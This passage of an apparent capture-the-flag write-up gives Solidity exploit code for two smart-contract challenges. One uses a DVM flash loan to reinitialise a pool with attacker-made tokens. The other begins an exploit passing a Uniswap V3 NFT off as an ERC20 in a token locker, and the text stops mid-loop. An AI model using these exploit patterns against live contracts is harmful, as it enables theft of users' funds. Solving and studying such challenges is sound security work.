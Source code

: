 ```solidity
    address public system;
    DVMLike public dvm;
    QuoteToken public quoteToken;

    function exploit() public {
        dvm = DVMLike(Challenge(0x1a650d6F031555837D016142b5Aec2E76ab5637F).dvm());
        quoteToken = QuoteToken(dvm._QUOTE_TOKEN_());
        dvm.flashLoan(WETH.balanceOf(address(dvm)), 
            quoteToken.balanceOf(address(dvm)),
            address(this), hex"11");
    }

    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public {
        QuoteToken t1 = new QuoteToken();
        QuoteToken t2 = new QuoteToken();
        t1.transfer(address(dvm), 1_000_000 ether);
        t2.transfer(address(dvm), 1_000_000 ether);


        dvm.init(address(this), 
            address(t1),
            address(t2),
            3000000000000000,
            address(0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01),
            1,
            1000000000000000000,
            false
        );
    }
}
```




### Token Locker
ERC20 and ERC721 share same function signature. You can exploit this observation and make Uniswap V3 NFT to be treated as an ERC20 token in the protocol.


```solidity
import "forge-std/test.sol";
import "forge-std/console.sol";
import "../src/Challenge.sol";
import "../src/UNCX_ProofOfReservesV2_UniV3.sol";


contract Exploit {
    Challenge c = Challenge(0x0147383f0CA823cCc5F5609302b0fAEFFa48A5E8);
    IUNCX_ProofOfReservesV2_UniV3 v = IUNCX_ProofOfReservesV2_UniV3(0x7f5C649856F900d15C83741f45AE46f5C6858234);
    INonfungiblePositionManager u = INonfungiblePositionManager(0xC36442b4a4522E871399CD717aBDD847Ab11FE88);
    IWETH weth = IWETH(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    IERC20 usdt = IERC20(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    IUniswapV2Router02 r = IUniswapV2Router02(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);

    uint256 ctid;

    function exploit(uint256 m) public {
        for (uint256 i = 0; i < m; i++) {
            ctid = u.tokenOfOwnerByIndex(address(v), 0);
            console.log(ctid);


```